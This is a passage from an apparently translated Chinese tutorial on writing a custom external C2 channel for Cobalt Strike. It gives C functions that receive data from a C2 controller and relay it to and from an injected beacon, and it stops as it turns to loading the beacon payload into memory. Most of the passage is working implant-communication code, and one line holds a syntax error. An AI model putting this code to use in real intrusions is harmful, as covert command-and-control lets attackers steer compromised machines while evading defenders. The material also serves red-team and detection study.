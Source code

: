 ```

    return sd;
`}`
```

然后我们需要接收数据。这个过程与Python代码中的流程类似，可以通过长度字段的值来知道需要接收的数据长度：

```
// Receives data from our C2 controller to be relayed to the injected beacon
char *recvData(SOCKET sd, DWORD *len) `{`
    char *buffer;
    DWORD bytesReceived = 0, totalLen = 0;

    *len = 0;

    recv(sd, (char *)len, 4, 0);
    buffer = (char *)malloc(*len);

    if (buffer == NULL)
        return NULL;

    while (totalLen &lt; *len) `{`
            bytesReceived = recv(sd, buffer + totalLen, *len - totalLen, 0);
            totalLen += bytesReceived;
    `}`
    return buffer;
`}`
```

与之前类似，我们需要将数据通过C2通道返回给Controller：

```
// Sends data to our C2 controller received from our injected beacon
void sendData(SOCKET sd, const char *data, DWORD len) `{`
    char *buffer = (char *)malloc(len + 4);
    if (buffer == NULL):
        return;

    DWORD bytesWritten = 0, totalLen = 0;

    *(DWORD *)buffer = len;
    memcpy(buffer + 4, data, len);

    while (totalLen &lt; len + 4) `{`
            bytesWritten = send(sd, buffer + totalLen, len + 4 - totalLen, 0);
            totalLen += bytesWritten;
    `}`
    free(buffer);
`}`
```

现在我们已经可以与Controller通信，接下来第一要务就是接收beacon载荷。载荷为x86或者x64载荷（具体架构由Controller发送给Cobalt Strike的选项所决定），在执行之前需要复制到内存中。比如，我们可以使用如下语句接收beacon载荷：
